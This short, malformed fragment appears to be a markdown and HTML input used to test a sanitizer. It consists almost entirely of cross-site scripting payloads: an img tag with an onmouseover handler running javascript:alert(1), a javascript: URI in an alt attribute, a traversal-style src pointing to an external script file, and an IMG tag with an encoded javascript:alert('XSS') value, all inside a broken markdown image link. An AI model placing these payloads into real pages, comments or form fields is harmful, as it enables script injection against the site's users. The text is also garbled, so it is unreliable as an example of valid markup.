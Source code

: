 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
